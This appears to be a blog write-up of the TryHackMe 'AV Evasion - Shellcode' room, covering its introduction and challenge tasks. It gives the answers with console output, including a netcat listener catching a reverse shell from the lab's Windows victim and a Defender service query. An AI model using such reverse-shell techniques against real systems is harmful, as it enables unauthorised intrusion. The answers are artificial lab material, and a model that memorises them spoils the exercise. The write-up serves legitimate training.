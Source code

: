 ```yaml
---
title: AV Evasion - Shellcode
author: CYB3RM3
name: CYB3RM3 | AV Evasion - Shellcode
date: 2022-11-13 12:50:21 +0100
categories: [TryHackMe, Host Evasions]
tags: [Malware, Evasion, SOC, Red Team, Packers, Shellcode]
---
```


Learn shellcode encoding, packing, binders, and crypters.

THM Room [https://tryhackme.com/room/avevasionshellcode](https://tryhackme.com/room/avevasionshellcode)


## TASK 1 : Introduction
### Click and continue learning!
No Answer

## TASK 2 : Challenge
### Which Antivirus software is running on the VM? 
You can ignore the questions for this task for now, but be sure to come back to them once you have successfully bypassed the AV and gained a shell.

From reverse shell obtained in task 9 :

```console
C:\Users\av-victim\Desktop>sc query windefend
sc query windefend

SERVICE_NAME: windefend 
        TYPE               : 10  WIN32_OWN_PROCESS  
        STATE              : 4  RUNNING 
                                (STOPPABLE, NOT_PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x0
```
{: .nolineno }

Answer :  Windows Defender

### What is the name of the user account to which you have access?

From the shell obtained in task 9 :

```console
root@ip-10-10-8-119:~/Desktop# nc -lnvp 7478
Listening on [0.0.0.0] (family 0, port 7478)
Connection from 10.10.142.2 51412 received!
Microsoft Windows [Version 10.0.17763.1821]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\App>whoami
whoami
av-evasion-pc\av-victim

C:\App>
```
{: .nolineno }

